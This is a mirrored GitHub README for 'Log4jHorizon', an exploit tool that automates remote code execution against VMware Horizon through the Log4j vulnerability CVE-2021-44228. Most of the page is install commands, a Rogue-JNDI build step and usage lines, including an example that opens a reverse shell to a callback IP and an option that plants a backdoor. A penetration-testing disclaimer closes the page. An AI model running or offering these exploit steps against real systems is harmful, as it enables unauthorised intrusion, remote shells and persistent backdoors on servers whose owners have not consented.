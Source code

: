 # Log4jHorizon

Exploiting CVE-2021-44228 in VMWare Horizon for remote code execution and more.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/puzzlepeaches](https://github.com/puzzlepeaches) |
| Url      | [https://github.com/puzzlepeaches/Log4jHorizon](https://github.com/puzzlepeaches/Log4jHorizon)                                               |
| Stars    | 103                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Log4jHorizon

Exploiting CVE-2021-44228 in VMWare Horizon for remote code execution and more.

* [Crossing the Log4j Horizon - A Vulnerability With No Return](https://www.sprocketsecurity.com/blog/crossing-the-log4j-horizon-a-vulnerability-with-no-return)

Code and README.md this time around are a little scatered. Updates coming!

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process. See the blog post above for guidance on post-exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jHorizon \
    && cd Log4jHorizon && pip3 install -r requirements.txt
```

From the root of the Log4jHorizon repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jHorizon \
    && cd Log4jHorizon && docker build -t Log4jHorizon .
```

To run the container, run a command similar to the following with your command line flags appended. Note that the container will not catch a reverse shell. You need to create a ncat listener in a separate shell session:

```
docker run -it -p 1389:1389 Log4jHorizon \
    -r -t horizon.acme.com -i 192.168.1.1 -p 4444
```


# Usage

```
usage: exploit.py [-h] -t URL -i CALLBACK [-p PORT] [-r] [-b]

optional arguments:
  -h, --help            show this help message and exit
  -t URL, --target URL  VMWare Horizon IP
  -i CALLBACK, --ip CALLBACK
                        Callback IP for payload delivery and reverse shell.
  -p PORT, --port PORT  Callback port for reverse shell.
  -r, --revshell        Module to establish reverse shell using node.exe.
  -b, --backdoor        Module to add backdoor.
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -r -t horizon.acme.com -p 442 -i 192.168.1.1
```

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.




## Get the content

```
git clone https://github.com/puzzlepeaches/Log4jHorizon
cd Log4jHorizon
```

{% embed url="https://github.com/puzzlepeaches/Log4jHorizon" %}

<figure><img src="https://avatars.githubusercontent.com/u/8538866?v=4" alt=""><figcaption><p>puzzlepeaches</p></figcaption></figure>

